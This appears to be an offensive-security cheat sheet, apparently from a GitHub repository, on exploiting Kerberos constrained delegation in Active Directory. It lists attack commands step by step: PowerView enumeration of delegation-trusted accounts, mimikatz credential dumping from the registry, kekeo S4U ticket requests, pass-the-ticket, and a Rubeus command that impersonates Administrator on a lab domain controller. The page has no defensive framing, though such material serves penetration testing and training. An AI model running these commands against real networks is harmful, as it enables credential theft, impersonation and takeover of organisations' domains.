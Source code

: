 # Constrained vs Unconstrained

## Delegation configuration

#### 1) HTTP

#### 2) CIFS

#### 3) LDAP

#### 4) HOST

#### 5) MSSQL

# Constrained Delegation Exploitation 

## Example:

#### 1) Import-Module c:\tools\Powerview.ps1

#### 2) Get-NetUser -TrustedToAuth

#### 3) mimikatz.exe

#### 4) token::elevate

#### 5) lsadump::secrets (Pulls clear text credentials from registry hive)

#### 6) Exit mimikatz after "token::elevate" command

#### 7) keko.exe

#### 8) tgt::ask /user:USER/SERVICE /domain:DOMAIN /password:PASSWORD

#### 9) tgs::s4u /tgt:TICKET.KIRBI /user:USER /service:SERVICE *You can run same command to impersonate more services.

#### 10) mimikatz

#### 11) privilege::debug

#### 12) kerberos::ptt TICKET.KIRBI

#### 13) kerberos::ptt TICKET2.KIRBI

#### 14) klist

# Kerberos Constrained Delegation

| Command                                                      | Description                                                  |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
| `Get-NetUser -TrustedToAuth`                                 | Cmdlet used to enumerate user accounts that are trusted for delegation in the domain |
| `.\Rubeus.exe hash /password:Slavi123`                       | Converts the plaintext password `Slavi123` to its NTLM hash equivalent|
| `.\Rubeus.exe s4u /user:webservice /rc4:<hash> /domain:eagle.local /impersonateuser:Administrator /msdsspn:"http/dc1" /dc:dc1.eagle.local /ptt` | Using Rubeus to request a ticket for the `Administrator` account, by way of the `webservice` user who is trusted for delegation |
| `Enter-PSSession dc1`                                        | Used to enter a new powershell remote session on the `dc1` computer |

